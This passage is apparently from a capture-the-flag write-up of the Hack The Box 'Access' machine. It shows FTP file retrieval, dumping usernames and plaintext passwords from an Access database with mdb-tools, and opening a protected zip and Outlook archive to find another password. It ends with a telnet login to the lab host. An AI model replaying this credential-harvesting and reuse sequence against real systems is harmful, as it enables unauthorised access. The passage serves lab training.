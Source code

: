 ```bash
local : Access Control . zip remote : Access Control . zip
200 PORT command successful .
125 Data connection already open ; Transfer starting .
226 Transfer complete .
10870 bytes received in 0.45 secs (23.7488 kB / s )
```

### Inspecting backup.mdb & 'Access Control.zip'

We set `Access Control.zip` aside for now, as it is password protected. The `backup.mdb` file is a
standard Microsoft Access Database file which we can either A) open in Microsoft Access, or B) use
`mdb-tools` to decipher. For the purposes of this lab, `mdb-tools` were used.
In the mdb-tools package specifically, we will use `mdb-tables` and `mdb-export`.

```bash
root@kali :~/ HTB / Access / FTP # mdb -tables backup.mdb
( removed ) ... auth_message auth_permission auth_user
auth_user_groups auth_user_user_permissions
base_ addition data base_appoption ... ( removed )
```

I removed most of the tables, to de-clutter the above dialog. The table `auth_user` is especially
interesting to us. It’s exported to plain-text below:

```bash
root@kali:~/HTB/Access/FTP# mdb -export backup.mdb auth_user
id , username , password , Status , last_login , RoleID , Remark
25 , " admin " ," admin " ,1 , " 08/23/18 21:11:47 " ,26 ,
27 , " engineer " ," access4u @security " ,1 , " 08/23/18 21:13:36 " ,26 ,
28 , " backup_admin " ," admin " ,1 , " 08/23/18 21:14:02 " ,26 ,
```

Passwords! Trying each of them on `Access Control.zip`, we find success with `access4u@security`,
allowing us to export `Access Control.pst`. Using `readpst`, we can convert the `.pst` file into a
plain-text .`mbox` file. We can open the file in `nano` and give it a read. (`nano` used for simplicity- feel free to use vim!)

```bash
( removed ) ... Hi there ,
The password for the " security " account has been changed
to 4Cc3ssC0ntr0ller . Please ensure this is passed on to
your engineers .
Regards ,
John
```

Thanks John! We'll definitely pass this along to our engineers. :)

### User Access via Telnet

Now that we have access to some credentials, let us attempt to connect via `telnet` on port 23.

```bash
root@kali :~/HTB/Access # telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is ’^]’.
Welcome to Microsoft Telnet Service
login : security
password : 4Cc3ssC0ntr0ller
*==========================================================
Microsoft Telnet Server .
*==========================================================
C:\Users\security>
```
